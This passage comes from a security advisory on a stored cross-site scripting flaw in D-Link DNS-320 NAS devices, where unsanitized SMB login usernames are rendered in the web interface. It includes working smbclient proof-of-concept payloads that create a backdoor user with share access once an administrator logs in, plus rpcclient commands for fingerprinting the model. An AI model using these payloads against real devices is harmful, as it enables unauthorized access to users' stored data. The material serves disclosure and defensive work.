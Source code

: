 ## 5. Vulnerability Details<a id="details"></a>

The device keeps a record of unsuccessful SMB login attempts in a log file. For login attempts with a non-existing username, this username will be stored and later displayed without being sanitized. The contents of the log file can be viewed from within the device's web interface; either on a dedicated page (Management -> System Management -> Logs; ```<http://<IP>/web/management.html?id=log>```) or on the home page ```<http://<IP>/web/home.html>```. Both pages suffer from the same vulnerability, but because the home page is automatically loaded after a successful login, injected code will be run immediately afterwards and without further user interaction.

Because malicious code can be injected using a protocol (SMB) other than the protocol leading to its eventual execution (HTTP), preventing outside access to the web interface is not sufficient to protect against the exploitation of this vulnerability. 


## 6. Exploitation / Proof of Concept<a id="poc"></a>

Due to the nature of the vulnerability, it would be trivial to automate the injection of malicious code into a number of vulnerable devices. 

The following two ```smbclient``` commands serve as a proof of concept. Their purpose is to inject code that will create a new user with a password chosen by the attacker. In addition, it supplies this user with read/write permissions on the device's default share ("Volume_1"); which, by default, results in full read and write access to the data stored on the primary HDD. 

```
smbclient -U '<img src=&#47;cgi-bin&#47;account_mgr.cgi?cmd=cgi_adduser_to_session&s_name=Volume_1&ftp=true&read_list=&write_list=baduser&decline_list=&username=baduser&>' -N  '\\x\Volume_1' -I <TARGET IP>

smbclient -U '<img src=&#47;cgi-bin&#47;account_mgr.cgi?cmd=cgi_user_add&name=baduser&pw=badpass&>' -N  '\\x\Volume_1' -I <TARGET IP>
```

Once an administrator logs into the device's web interface, the code will be executed: a new user with an attacker-specified password will be created and granted read/write permissions to the "Volume_1" share. 

To confirm whether a device is one of the vulnerable models, ```rpcclient``` can be used. After issuing the ```querydominfo``` command, the model name can be found next to ```Comment```:

```
[~] $ rpcclient -U "" -N <TARGET IP>
rpcclient $> querydominfo
Domain:		WORKGROUP
Server:		DLINK-EXXXXX
Comment:	DNS-320 <===== Model
Total Users:	3
[...]
```


### Alternative, less intrusive PoC

Some readers may want to verify whether the vulnerability exists on their device, but without making configuration changes, such as the ones caused by the previously mentioned commands. 
